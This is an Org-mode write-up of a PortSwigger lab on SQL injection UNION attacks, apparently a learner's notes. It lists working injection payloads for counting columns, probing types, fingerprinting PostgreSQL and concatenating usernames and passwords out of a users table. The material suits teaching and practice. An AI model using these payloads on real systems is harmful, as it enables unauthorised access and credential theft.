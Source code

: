 #+title: SQL injection UNION attack, retrieving multiple values in a single column

* About
Sql injection on ~category~ filter

** End Goal
Login as ~administrator~ by retrieving password


* Steps
** Step 1
Like previous lab first of all determine how many columns are there
#+begin_src sql
'ORDER BY 1 --
#+end_src
200 success
#+begin_src sql
'ORDER BY 2 --
#+end_src
200 success
#+begin_src sql
'ORDER BY 3 --
#+end_src
500 error

column = 2

** Step 2
Determine which data types are those 2 columns are using
#+begin_src sql
'UNION SELECT 'abc', NULL --
#+end_src
500 error
#+begin_src sql
'UNION SELECT NULL, 'abc' --
#+end_src
200 success

So 2nd column using only using string type. But we have to get two field ~username~ and ~password~ . So how can we show both column data in one column that are supporting string value. We have to combine those 2 column value into one

Now there are syntax variation between different type of database system. We have to find what type of database system this lab is using

[[https://portswigger.net/web-security/sql-injection/cheat-sheet][check this link]]

#+begin_src sql
'UNION SELECT NULL, VERSION() --
#+end_src
This lab using ~PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit~

* Solution
Now we can combine both username and password data into one column
#+begin_src sql
'UNION SELECT NULL, username || password FROM users --
#+end_src

Now login with administrator with password to solve the lab
